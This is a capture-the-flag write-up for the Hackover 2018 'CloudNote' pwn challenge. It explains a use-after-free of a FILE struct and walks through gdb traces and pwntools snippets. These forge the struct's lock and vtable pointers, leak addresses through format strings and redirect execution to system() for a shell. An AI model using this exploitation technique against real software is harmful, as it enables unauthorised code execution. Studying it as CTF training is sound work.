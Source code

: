 ```yaml
---
title: "CTF Hackover 2018 - Pwn - CloudNote"
description: "A FILE struct use after free""
---
```


# Description

This challenge was created for the Hackover 2018 CTF.

```
This lightweight service hosts your notes in the Cloud.
Feel free to test our service with the guest:guest test account.
For optimal security use a recent Ubuntu Xenial or the provided libc.
```

# Vulnerability

The application has a use after free vulnerability, allowing to overwrite users `FILE` struct.
The note database is opened using `fopen();` and closed after logout, but the `user` pointer is not set to `NULL`.
As the `FILE` struct is allocated on the heap and freed by `fclose()` the next allocated heap chunk might overwrite this structure.
If the user tries to add a long note after logout, the application segfaults.

```c
void logout() {
    if (user != NULL)
        fclose(user);
    printf("Succsess\n");

    return;
}

void note_add() {
    char *buff = NULL;
    char c;

    if (!user) {
        printf("ERROR: not logged in\n");
        return;
    }

    printf("note> ");
    fflush(stdout);
    getline(&buff, &len, stdin);
    fseek(user, 0, SEEK_END);
    fwrite(buff, strlen(buff), 1, user);
    free(buff);
}

```

`getline()` writes user input to the heap, overwriting the `FILE` struct that is passed to `fseek()` and `fwrite()`.
The `FILE` struct contains a pointer to a jumptable, that holds handlers for various operations(read, write, seek, etc.), the corresponding `_IO_FILE` struct is defined in `libio.h`

# RIP Control

First we have to trigger the UAF:
```
  ____ _                 _ _   _       _       
 / ___| | ___  _   _  __| | \ | | ___ | |_ ___ 
| |   | |/ _ \| | | |/ _` |  \| |/ _ \| __/ _ \
| |___| | (_) | |_| | (_| | |\  | (_) | ||  __/
 \____|_|\___/ \__,_|\__,_|_| \_|\___/ \__\___|
                                               
-----------------------------------------------
Because it's a great Idea!
cmd> login
Username: guest
Password: guest
Succsess
cmd> logout
Succsess
cmd> note add
note> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)A..........
[...]
Stopped reason: SIGSEGV
0x00007ffff7a82f20 in __GI_fseek (fp=0x6039d0, offset=0x0, whence=0x2) at fseek.c:35
[...]
gdb-peda$ pattern search
[...]
Registers point to pattern buffer:
[RDI] --> offset 288 - size ~203
```

The Programm will crashes and a quick look at the registers shows, that `$rdi` points at offset 288 of our buffer, which is the start of our `FILE` struct.
Let's prepare our exploit, starting with a peda pattern:

```python
def set_data(fstruct, offset, val):
    return fstruct[:offset] + val + fstruct[offset+len(val):]

fstruct = pattern
exploit = "A" * 288 + fstruct
```
Will result in the following crash:
```
   0x7f80dd35489e <fseek+14>:   jne    0x7f80dd3548f9 <fseek+105>
   0x7f80dd3548a0 <fseek+16>:   mov    r8,QWORD PTR [rdi+0x88]
   0x7f80dd3548a7 <fseek+23>:   mov    r10,QWORD PTR fs:0x10
=> 0x7f80dd3548b0 <fseek+32>:   cmp    r10,QWORD PTR [r8+0x8]
   0x7f80dd3548b4 <fseek+36>:   je     0x7f80dd3548f4 <fseek+100>
   0x7f80dd3548b6 <fseek+38>:   mov    esi,0x1
   0x7f80dd3548bb <fseek+43>:   cmp    DWORD PTR [rip+0x332e1e],0x0        # 0x7f80dd6876e0 <__libc_multiple_threads>
   0x7f80dd3548c2 <fseek+50>:   je     0x7f80dd3548cd <fseek+61>

gdb-peda$ pattern search
Registers contain pattern buffer:
r8+0 found at offset 136
```
This is a pointer to `_IO_FILE._lock` and should point to a writable location containing 0x00.
We choose a random address in the BSS segment.
```python
def set_data(fstruct, offset, val):
    return fstruct[:offset] + val + fstruct[offset+len(val):]

fstruct = pattern
fstruct = set_data(fstruct, 136, pwn.p64(nullptr))
exploit = "A" * 288 + fstruct
```
```
   0x7f252345533e <_IO_seekoff_unlocked+30>:    js     0x7f25234553b0 <_IO_seekoff_unlocked+144>
   0x7f2523455340 <_IO_seekoff_unlocked+32>:    je     0x7f2523455379 <_IO_seekoff_unlocked+89>
   0x7f2523455342 <_IO_seekoff_unlocked+34>:    mov    rax,QWORD PTR [rdi+0xa0]
=> 0x7f2523455349 <_IO_seekoff_unlocked+41>:    cmp    QWORD PTR [rax+0x40],0x0
   0x7f252345534e <_IO_seekoff_unlocked+46>:    je     0x7f2523455379 <_IO_seekoff_unlocked+89>
   0x7f2523455350 <_IO_seekoff_unlocked+48>:    cmp    edx,0x1
   0x7f2523455353 <_IO_seekoff_unlocked+51>:    je     0x7f2523455436 <_IO_seekoff_unlocked+278>
   0x7f2523455359 <_IO_seekoff_unlocked+57>:    mov    rdi,rbx
gdb-peda$ pattern search
Registers contain pattern buffer:
RAX+0 found at offset: 160  
[...]
```
Lets set this pointer to the same location and see what happens:
```python
def set_data(fstruct, offset, val):
    return fstruct[:offset] + val + fstruct[offset+len(val):]

fstruct = pattern
fstruct = set_data(fstruct, 136, pwn.p64(nullptr))
fstruct = set_data(fstruct, 160, pwn.p64(nullptr))
exploit = "A" * 288 + fstruct
```
```
   0x466904 <_IO_seekoff_unlocked+84>:  mov    rsi,QWORD PTR [rsp]
   0x466908 <_IO_seekoff_unlocked+88>:  mov    rax,QWORD PTR [rbx+0xd8]
   0x46690f <_IO_seekoff_unlocked+95>:  mov    rdi,rbx
=> 0x466912 <_IO_seekoff_unlocked+98>:  mov    rax,QWORD PTR [rax+0x48]
   0x466916 <_IO_seekoff_unlocked+102>: add    rsp,0x10
   0x46691a <_IO_seekoff_unlocked+106>: pop    rbx
   0x46691b <_IO_seekoff_unlocked+107>: jmp    rax
   0x46691d <_IO_seekoff_unlocked+109>: nop    DWORD PTR [rax]
gdb-peda$ pattern search
Registers contain pattern buffer:
RAX+0 found at offset: 216
[...]
Registers point to pattern buffer:
[RDI] --> offset 0 - size ~142
```
The code will now jump to `rax+0x48` which is copied from offset 216 in our buffer!
In addition `rdi` also points to our forged `FILE` struct, so we can also controll the first argument.
Lets write a pointer to `printf@got-0x48` at offset 216:

```python
def set_data(fstruct, offset, val):
    return fstruct[:offset] + val + fstruct[offset+len(val):]

fstruct = pattern
fstruct = set_data(fstruct, 136, pwn.p64(nullptr))
fstruct = set_data(fstruct, 160, pwn.p64(nullptr))
fstruct = set_data(fstruct, 216, pwn.p64(got_printf-0x48))
exploit = "A" * 288 + fstruct
```

```
note> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)A..........
AAA0X0.0000000E6C4BP-1...............
cmd>
```

Nice! The code prints our `FILE` struct directly on the screen.

# Exploit
We can now replace our peda pattern with lots of `%p|` to leak the heap and libc base.

```python
def set_data(fstruct, offset, val):
    return fstruct[:offset] + val + fstruct[offset+len(val):]

fstruct = "%p|" * 64
fstruct = set_data(fstruct, 136, pwn.p64(nullptr))
fstruct = set_data(fstruct, 160, pwn.p64(nullptr))
fstruct = set_data(fstruct, 216, pwn.p64(got_printf-0x48))
exploit = "A" * 288 + fstruct
```

```
note> %p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|.............
(nil)|0x2|0x3|0x6020f0|(nil)|0x2454420|0x401037|0x24554b0|0x6dde37d37eab4000|0x7ffc1f28a680|...
|0x1c|0x1|0x7ffc1f28afce|%`cmd>
```

As we broke ASLR, we are now ready to execute `system()` in the second stage.
This time, we have to replace the call to `printf()` with a call to `system()`.
As the adress of `system();` is not in memory, we have to write it to an unsed location in the `FILE` struct.
We can use the beginning of our `FILE` struct to pass any argument.

```python
def set_data(fstruct, offset, val):
    return fstruct[:offset] + val + fstruct[offset+len(val):]

fstruct = "%p|" * 64
fstruct = set_data(fstruct, 0, "bash\x00")
fstruct = set_data(fstruct, 32, pwn.p64(libc + system_offset))
fstruct = set_data(fstruct, 136, pwn.p64(nullptr))
fstruct = set_data(fstruct, 160, pwn.p64(nullptr))
fstruct = set_data(fstruct, 216, pwn.p64(heap + 5616 - 0x48))
exploit = "A" * 288 + fstruct
```
And we got a shell ;)

```
cat flag
hackover2018{4lw4y2_Null_y0uR_P01Nt3R}
```


# Files
- [exploit.py](exploit.py)
- [cloudnote.c](cloudnote.c)
- [cloudnote](cloudnote)
- [libc.so.6](libc.so.6)
- [ld-2.23.so](ld-2.23.so)
- [Dockerfile](Dockerfile)
- [Makefile](Makefile)
